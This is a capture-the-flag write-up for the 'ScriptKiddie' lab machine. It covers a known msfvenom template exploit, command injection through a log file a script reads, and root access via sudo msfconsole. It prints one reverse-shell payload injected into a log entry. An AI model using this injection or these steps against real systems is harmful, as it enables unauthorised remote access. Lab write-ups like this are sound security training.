 # ScriptKiddie

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (39) (3).png" alt=""><figcaption></figcaption></figure>

### Hacker Tools

Port 5000 presented a website where we could use tools like `nmap` and `msfvenom`:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can try it out and it works:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I tested all forms of command injection, but nothing worked. So, I started checking whether the tools themselves had exploits, and I was surprised to see that `msfvenom` was exploitable:

{% embed url="https://www.exploit-db.com/exploits/49491" %}

We just need to replace the payload in the PoC to a reverse shell and generate the APK file:

<figure><img src="../../../.gitbook/assets/image (43) (1) (1).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can upload this as a template file on the machine and change the LHOST to our IP address:

<figure><img src="../../../.gitbook/assets/image (9) (5) (1).png" alt=""><figcaption></figcaption></figure>

Then we would get a shell:

<figure><img src="../../../.gitbook/assets/image (1) (3) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### To Pwn

There was another user named `pwn` on the machine, so that's probably the next path. Within the home directory of `pwn`, we can see two other files:

<figure><img src="../../../.gitbook/assets/image (40) (1) (4).png" alt=""><figcaption></figcaption></figure>

The `bash` script was running some kind of logger that reads input from `/home/kid/logs/hackers` and executes commands based on it. Take note that we have control over this file.

<figure><img src="../../../.gitbook/assets/image (38) (2).png" alt=""><figcaption></figcaption></figure>

Now, we can see how the `${ip}` variable is not being sanitised and is run with `sh -c`, so this is our RCE point. Some testing revealed that the format of the log written is `[2021-05-28 12:37:32.655374] 10.10.16.9`. We can append a reverse shell to the end:

{% code overflow="wrap" %}
```
[2021-05-28 12:37:32.655374] 10.10.16.9 | bash -c 'bash -i >& /dev/tcp/10.10.16.9/8080 0>&1' #" > /home/kid/logs/hackers
```
{% endcode %}

After echoing it in, we would gain anoter reverse shell:

<figure><img src="../../../.gitbook/assets/image (11) (1) (6).png" alt=""><figcaption></figcaption></figure>

### Sudo MSFConsole

When checking `sudo` privileges, we see that we can run `msfconsole` as root.

<figure><img src="../../../.gitbook/assets/image (5) (1) (10).png" alt=""><figcaption></figcaption></figure>

The thing about `msfconsole` is that we can run shell commands in it. In short, we have root privileges just by doing `sudo msfconsole`:

<figure><img src="../../../.gitbook/assets/image (24) (1) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!
